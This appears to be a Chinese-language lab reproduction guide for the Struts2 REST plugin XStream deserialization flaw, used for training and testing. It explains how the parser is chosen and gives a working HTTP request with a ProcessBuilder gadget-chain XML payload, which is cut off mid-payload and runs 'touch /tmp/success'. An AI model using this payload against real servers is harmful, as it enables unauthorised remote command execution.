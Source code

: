 ```plain
docker-compose up -d
```

## 漏洞说明

Struts2-Rest-Plugin是让Struts2能够实现Restful API的一个插件，其根据Content-Type或URI扩展名来判断用户传入的数据包类型，有如下映射表：

| 扩展名 | Content-Type                      | 解析方法               |
| ------ | --------------------------------- | ---------------------- |
| xml    | application/xml                   | xstream                |
| json   | application/json                  | jsonlib或jackson(可选) |
| xhtml  | application/xhtml+xml             | 无                     |
| 无     | application/x-www-form-urlencoded | 无                     |
| 无     | multipart/form-data               | 无                     |



jsonlib无法引入任意对象，而xstream在默认情况下是可以引入任意对象的（针对1.5.x以前的版本），方法就是直接通过xml的tag name指定需要实例化的类名：

```plain
<classname></classname>
//或者
<paramname class="classname"></paramname>
```

所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在Struts2库中适用的gedget。

## 漏洞复现

启动环境后，访问`http://your-ip:8080/orders.xhtml`即可看到showcase页面。由于rest-plugin会根据URI扩展名或Content-Type来判断解析方法，所以我们只需要修改orders.xhtml为orders.xml或修改Content-Type头为application/xml，即可在Body中传递XML数据。

所以，最后发送的数据包为：

```plain
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
```